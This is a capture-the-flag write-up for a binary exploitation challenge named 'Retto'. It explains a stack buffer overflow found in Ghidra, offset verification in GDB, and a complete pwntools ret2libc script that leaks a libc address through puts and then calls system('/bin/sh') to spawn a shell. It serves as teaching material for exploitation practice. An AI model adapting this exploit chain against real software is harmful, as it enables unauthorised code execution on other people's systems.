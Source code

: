 ```yaml
---
title: "CWE Challenge - Retto"
author: Michael Mendoza
date: "2023-01-20"
subject: "Binary Exploitation"
keywords: [CTF, binary exploitation, Screening]
lang: "en"
titlepage: true
title-page-color: "141d2b"
titlepage-rule-color: "11b925"
titlepage-text-color: "FFFFFF"
toc: true
toc-own-page: true
titlepage-background: "./images/titlePage.jpeg"
...
```


# Information Gathering

After running the file and checksec command, we can see that we are looking at a 64 bit file with no canary and no PIE enabled. This is good bc we dont have to worry about Position Independent addresses as well as stack canaries. Return Oriented Programming is ideal in this situation. 
![Information](./images/info.png)
\ **Figure 1:** Information about the binary

## Ghidra

After observing the main function we can see a read_in function that has the vulnerability we are looking for.

![Ghidra](./images/read_in.png)
 **Figure 2:** Read_In Function
 
On the right side of Ghidra, we can see the decompiled read_in function showing that there is a buf variable with 44 bytes allocated to it, but the scanf function just reads in bytes without specifying a limit. This is where the buffer overflow vulnerability is located. On the left side we can see that the buf variable is at an offset of 0x38, but we will verify this later with GDB.
 
I did not see a win function, so this means we will have to create a payload to exploit the binary and get a return shell. However, since NX is enable, we are not able to write to the stack. We will have to use ROP, or Return Oriented Programming, to create our shell.

## Exploit Creation Explained 

One way to create a shell using ROP is to leak an address from libc, finding the functions necessary to do this can be done manually or automatically using the PWNTOOLS python library.

The point of leaking an address from libc is to find the offset to the base of libc, which is the address where libc was loaded into. If we can calculate the base address, then we can access anything from its offset, including the important system call needed to get a reverse shell!

The payload we want to create will first leak an address, so after calculating the base address, we will return to the main function and send another payload returning to a system call function in libc. Calling "System()" with the "/bin/sh" string as an argument will drop you into a shell!

Before creating our payload, we still need to verify the offset from the user input to the instruction pointer.

## Debugging with GDB (GEF)

After running the process in GDB, we Dissasemble the read_in function and set a break point after the scanf function is called. This allows us to see what the offset is from the user input to the instruction pointer.

![Debugging](./images/gdbBreak.png)
\ **Figure 3:** Breakpoint 1
 
![Debugging](./images/gdbReadIn.png)
\ **Figure 4:** Finding the Offset

Here we can see that the user input starts at 0x7fffffffdf30 and the rip is at 0x7fffffffdf68. Doing some quick math, the offset is 0x38.

![Debugging](./images/quickMath.png)
\ **Figure 5:** Finding the Offset


Now that we verified the offset, we can create our exploit.

# Exploitation

## Python Script

In the script, running the ELF(binary) function allows us to manipulate the binary and search for addresses needed for the exploit! 

```
#! /usr/bin/env python3

from pwn import *

#stored as an elf object so we can search the binary for needed address or grab values from addresses
rettoELF = ELF('./retto') 

#just like the binary above we can do this to search through libc
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

#create a ROP object which allows us to look up symbols in the binary
rettoROP = ROP(rettoELF)

target = process('./retto')

padding = b'A' * 0x38 #padding up to the instruction pointer


# 1st ROP chain will consist of padding, pop rdi, address of scanf from GOT which we want leaked, call the puts function, and then return to main
payload = padding
payload += p64(rettoROP.find_gadget(['pop rdi', 'ret'])[0]) #find a list of pop rdi gadgets and grabs the first one
payload += p64(rettoELF.got.__isoc99_scanf) #finds scanf from the Global Offset Table (GOT) and places the address into rdi to be leaked
payload += p64(rettoELF.plt.puts) #call puts from the procedural linkage table to print out the leaked address from the GOT
payload += p64(rettoELF.symbols.main) #finds main to jump back to the beginning
target.sendlineafter(b'here?', payload) #this will send the payload after the prompted question

#save the leaked address
target.recvline() #didnt need this line
leak = u64(target.recvline().strip().ljust(8, b'\0')) #save the leaked address and unpack it (ljust bc its little endian)

log.info(f'{hex(leak)}') #print out the status message for leaked address


#calculate the base address
libc.address = leak - libc.symbols.__isoc99_scanf #calculate base libc by subtracting the leaked scanf by the offset given in libc.symbols
log.info (f'Libc base => {hex(libc.address)}') ##print out the status message for libc base address (should end in 000)


# 2nd ROP Chain padding, pop rdi, reference to /bin/sh, ret for stack alignment, call system
payload = padding
payload += p64(rettoROP.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(next(libc.search(b'/bin/sh'))) # searches libc for the next /bin/sh string and is placed in the rdi register
payload += p64(rettoROP.find_gadget(['ret'])[0]) # needed for stack alignment
payload += p64(libc.symbols.system) # calls system from libc with /bin/sh as its arguement which will drop to a shell, this is only possible since we calculated the base address of libc!


target.sendline(payload) # send payload again for shell

target.interactive()
```

At first it may seem as though we could just bypass the process of leaking an address by just calling "libc.symbols.system" from the beginning, but for pwntools to know where anything in the GOT is, we need to have the base address saved in "libc.address". From there it will be able to find any address since the offset of the addresses don't change.

## Flag
![Flag](./images/flag.png)
\ **Figure 6:** Running the Exploit

# Conclusion
Having a good understanding of how the operating system works with dynamically linked binaries was the key to solving this challenge; learning how the Procedural Linkage Table and the Global Offset Table work together to allow the binary to call functions. 


# References
1. [https://guyinatuxedo.github.io/index.html](https://guyinatuxedo.github.io/index.html)
2. [https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt_and_got](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt_and_got)
3. [https://docs.pwntools.com/en/stable/elf/elf.html](https://docs.pwntools.com/en/stable/elf/elf.html)
4. [https://docs.pwntools.com/en/stable/rop/rop.html](https://docs.pwntools.com/en/stable/rop/rop.html)
